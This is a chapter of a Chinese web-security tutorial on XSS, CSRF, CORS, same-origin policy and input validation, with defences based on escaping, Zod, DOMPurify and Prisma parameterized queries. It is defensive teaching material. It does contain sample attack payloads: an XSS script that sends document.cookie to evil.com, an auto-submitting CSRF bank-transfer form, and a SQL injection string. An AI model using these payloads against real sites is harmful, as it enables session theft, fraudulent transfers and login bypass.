


# 6.4 认识常见的网络小偷——常见 Web 安全威胁与防护

## 认知重构

Web 安全威胁并不神秘。它们的本质都是**利用系统的信任机制**：浏览器信任网站返回的内容、服务器信任已登录用户的请求、数据库信任应用传来的查询。攻击者做的，就是在这些"信任链"中找到可以钻的空子。



## 本节内容

| 小节 | 核心问题 | 你将学会 |
|------|----------|----------|
| 6.4.1 XSS 防护 | 恶意脚本如何被注入？ | 输入验证与输出编码 |
| 6.4.2 CSRF 防护 | 身份如何被盗用？ | Token 验证与 SameSite |
| 6.4.3 CORS 配置 | 跨域请求怎么控制？ | 安全的跨域策略 |
| 6.4.4 同源策略 | 浏览器如何保护用户？ | 理解浏览器安全基础 |
| 6.4.5 输入验证 | 如何防止注入攻击？ | 参数化查询与验证 |

## 攻击原理速览

### XSS：让你的网站执行别人的代码

```html
<!-- 用户在评论框输入 -->
<script>fetch('https://evil.com/steal?cookie=' + document.cookie)</script>

<!-- 如果网站直接渲染，攻击者就能偷走所有访问者的 Cookie -->
```

### CSRF：借用你的身份做坏事

```html
<!-- evil.com 的隐藏表单 -->
<form action="https://bank.com/transfer" method="POST">
  <input name="to" value="attacker" />
  <input name="amount" value="10000" />
</form>
<script>document.forms[0].submit()</script>
<!-- 用户已登录 bank.com，浏览器自动带上 Cookie -->
```

### SQL 注入：绕过你的验证逻辑

```sql
-- 用户输入用户名：admin' OR '1'='1
SELECT * FROM users WHERE username = 'admin' OR '1'='1' AND password = '...'
-- 这条 SQL 总是返回结果，绕过了密码验证
```

## 防御思维模型

防御的核心原则只有一条：**永远不要信任用户输入**。



### 不同上下文的转义规则

| 上下文 | 危险字符 | 转义方式 |
|--------|----------|----------|
| HTML 内容 | `< > & " '` | HTML 实体编码 |
| HTML 属性 | `" '` | 属性值编码 |
| JavaScript | `' " \` | JS 转义 |
| URL 参数 | `& = ? #` | URL 编码 |
| SQL 查询 | `' " ; --` | 参数化查询 |

## 安全工具链

### 1. 输入验证：Zod

```typescript
import { z } from 'zod'

const UserInput = z.object({
  email: z.string().email(),
  name: z.string().min(1).max(100).regex(/^[a-zA-Z\s]+$/),
  age: z.number().int().min(0).max(150),
})
```

### 2. HTML 清理：DOMPurify

```typescript
import DOMPurify from 'isomorphic-dompurify'

const clean = DOMPurify.sanitize(dirtyHtml, {
  ALLOWED_TAGS: ['b', 'i', 'em', 'strong'],
})
```

### 3. 参数化查询：Prisma

```typescript
// ✅ 安全：Prisma 自动参数化
const user = await prisma.user.findFirst({
  where: { email: userInput }
})

// ❌ 危险：原始 SQL 拼接
const user = await prisma.$queryRawUnsafe(
  `SELECT * FROM users WHERE email = '${userInput}'`
)
```

## AI 协作提示

在让 AI 生成涉及用户输入的代码时，明确要求：

- "使用 Zod 验证所有用户输入"
- "使用参数化查询，不要拼接 SQL"
- "使用 DOMPurify 清理需要渲染的 HTML"
- "所有输出到页面的内容都要转义"

::: warning 安全审查清单
1. [ ] 所有用户输入都经过验证
2. [ ] 不直接拼接 SQL 语句
3. [ ] 不使用 `dangerouslySetInnerHTML`
4. [ ] 配置了 CSP 响应头
5. [ ] Cookie 设置了 HttpOnly 和 Secure
:::
